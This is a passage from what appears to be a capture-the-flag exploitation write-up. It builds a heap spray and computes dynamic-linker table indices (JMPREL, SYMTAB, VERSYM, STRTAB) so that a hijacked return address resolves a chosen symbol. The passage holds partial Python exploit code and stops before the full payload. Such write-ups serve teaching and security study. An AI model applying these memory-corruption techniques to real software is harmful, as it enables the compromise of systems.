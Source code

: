 # Exploit Code

Let's put this into action, calling a symbol we desire. I'm skipping over a few
implementation details (Technically the allocation size is `0x2010`, since the
chunk header occupies `0x10` bytes. This means we need to shift around our spray
inside the input buffer to stay aligned to `0x1000` byte boundaries.
Additionally, because we have to have valid indicies for tables of different
sizes, we need to have larger sprays. For example, if we index a table with
1-byte-sized elements at index `0x2000000`, indexing a table with 2-byte-sized
elements would be at the logical byte offset `0x2000000 * 2`, or `0x4000000`).

First, I'll create a wrapper for the payload creation. It'll make creating
sprays easier.

```python
class Buffer(io.BytesIO):
    # fills the rest of the stdin buffer
    def commit(self):
        self.write(b"\x00" * (0x2000 - (self.tell() % 0x2000)))

    def swrite(self, where, what):
        self.write(f"{where} {what}".encode() + b"\n")

    def write_bytes(self, where, what):
        for i in range(len(what)):
            self.swrite(where + i, what[i])
buf = Buffer()
```

Then, I'll define some constants for the location of the return address,
`__libc_start_call_main+128`, and the local variable `main` in
`__libc_start_call_main`.

```python
ret_addr = 0x38
main_addr = ret_addr + 0x10
```

Now, I'll calculate the required indices for each table:

```python
maximum_heap_offset = 0x2000000

payload_offset = (
    maximum_heap_offset + 0x5000 + 0xBA8
)  # offset from start of binary space
assert (payload_offset - bin.dynamic_value_by_tag("DT_JMPREL")) % 0x18 == 0

plt_idx = (
    payload_offset - bin.dynamic_value_by_tag("DT_JMPREL")
) // 0x18  # offset from start of binary space
symtab_idx = (
    payload_offset + 0x18 - bin.dynamic_value_by_tag("DT_SYMTAB")
) // 0x18  # offset from start of binary space
ver_idx = (payload_offset + 0x18 - bin.dynamic_value_by_tag("DT_VERSYM")) // 0x2


strtab_idx = (
    payload_offset + 0x18 * 2 + 0x8 - bin.dynamic_value_by_tag("DT_STRTAB")
)  # offset from start of binary space
```

